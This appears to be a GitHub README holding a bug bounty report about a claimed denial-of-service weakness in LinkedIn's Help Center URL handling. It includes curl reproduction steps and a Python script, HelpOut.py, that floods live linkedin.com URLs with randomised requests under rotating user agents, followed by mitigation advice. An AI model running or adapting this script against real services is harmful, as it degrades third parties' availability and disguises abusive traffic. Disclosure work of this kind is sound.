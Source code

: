 # HelpOut
Ddos resources exhaustion for LinkedIn help center

Here's the first report:
[Double Barrel 0day](https://raw.githubusercontent.com/DeadmanXXXII/Double_Barrel)

---

### Bug Bounty Report

**Title:** Potential DoS Vulnerability in LinkedIn Help Center URLs Due to Improper URL Handling

**Report Date:** August 28, 2024

**Reporter:** Blu Corbel AKA DeadmanXXXII

**Program:** LinkedIn Bug Bounty Program

---

#### Summary:

I have discovered a potential Denial of Service (DoS) vulnerability in LinkedIn's Help Center URL handling mechanism. By altering the last 7 characters of certain Help Center URLs, the server consistently returns a status code of 200 OK for URLs that do not actually exist. This behavior can be exploited to perform a DoS attack by generating and requesting numerous random URLs, overwhelming LinkedIn's servers.

#### Impact:

The vulnerability allows an attacker to flood LinkedIn's servers with legitimate-looking requests that consume resources, potentially degrading service performance or leading to a full-scale outage. Such an attack could disrupt the availability of LinkedIn's Help Center and other related services.

#### CVSS Score:

- **CVSS Version:** 3.1
- **CVSS Vector:** AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H
- **Base Score:** 8.6 (High)

#### CWE ID:

- **CWE-400:** Uncontrolled Resource Consumption ('Resource Exhaustion')

---

#### Steps to Reproduce:

1. Start with the base LinkedIn Help Center URL: `https://www.linkedin.com/help/linkedin/answer/a1341680`
2. Modify the last 7 characters of the URL with any random digits or characters, for example: `https://www.linkedin.com/help/linkedin/answer/a1041689`.
3. Use `curl` or any HTTP client to make a request to the generated URL:
   ```bash
   curl -I https://www.linkedin.com/help/linkedin/answer/a1041689
   ```
4. Observe that the server consistently returns a `200 OK` status code along with valid content, even for URLs that do not exist.

#### Proof of Concept (PoC) Script: **HelpOut.py**

The following Python script, named **HelpOut.py**, demonstrates how an attacker might exploit this vulnerability by generating random URLs and sending requests with varying user agents.

```python
import requests
import random
import string
import time

# Base URL for LinkedIn Help Center
base_url = "https://www.linkedin.com/help/linkedin/answer/a"

# Random User Agents
user_agents = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15",
    "Mozilla/5.0 (Linux; Android 11; SM-G998B) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Mobile Safari/537.36",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 15_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Mobile/15E148 Safari/604.1"
]

def generate_random_url(base):
    # Generate a random 7-character alphanumeric string
    random_chars = ''.join(random.choices(string.ascii_lowercase + string.digits, k=7))
    return base + random_chars

def send_request(url):
    # Choose a random User Agent
    headers = {
        "User-Agent": random.choice(user_agents)
    }
    response = requests.head(url, headers=headers)
    print(f"Requested URL: {url} | Status Code: {response.status_code}")

# Generate and request random URLs
for _ in range(1000):  # Modify this number to increase/decrease the number of requests
    random_url = generate_random_url(base_url)
    send_request(random_url)
    time.sleep(0.1)  # Pause between requests to simulate more realistic traffic
```

---

#### Mitigation Recommendations:

1. **Implement Rate Limiting:** Enforce rate limits on incoming requests to prevent abuse by automated scripts and bots.
2. **Return Proper Error Codes:** Ensure that only valid resources return a `200 OK` status code. Non-existent or unauthorized resources should return appropriate error codes like `404 Not Found`.
3. **Request Throttling:** Apply throttling mechanisms on repetitive and identical requests to prevent resource exhaustion.
4. **Response Caching:** Implement caching mechanisms to avoid reprocessing identical requests, thus reducing the load on servers.

#### Business Impact:

If exploited, this vulnerability can cause severe service disruptions, affecting user access to LinkedIn Help Center resources and potentially leading to widespread dissatisfaction among users. Furthermore, the attack can compromise LinkedIn's reputation for reliability and security.

---

#### Additional Information:

- **LinkedIn Help Center URLs:** This issue appears to be specific to certain LinkedIn Help Center URLs. However, further investigation might reveal similar vulnerabilities in other areas of the platform.
- **Server Behavior:** The consistent `200 OK` response, regardless of the validity of the resource, suggests that the backend server may not be verifying the existence of the requested resource, leading to unnecessary processing.

---

Please review the findings and consider implementing the recommended mitigations to protect LinkedIn's infrastructure from potential abuse. I am happy to provide further clarification or assist with any testing as needed.

**Blu Corbel AKA DeadmanXXXII**

---


![status 200s](https://raw.githubusercontent.com/DeadmanXXXII/HelpOut/main/Screenshot_20240828-215828.png)

![status 200s](https://raw.githubusercontent.com/DeadmanXXXII/HelpOut/main/Screenshot_20240828-220144.png)

![status 200s](https://raw.githubusercontent.com/DeadmanXXXII/HelpOut/main/Screenshot_20240828-220144.png)

![status 200s](https://raw.githubusercontent.com/DeadmanXXXII/HelpOut/main/Screenshot_20240828-220144.png)

![status 200s](https://raw.githubusercontent.com/DeadmanXXXII/HelpOut/main/Screenshot_20240828-220144.png)
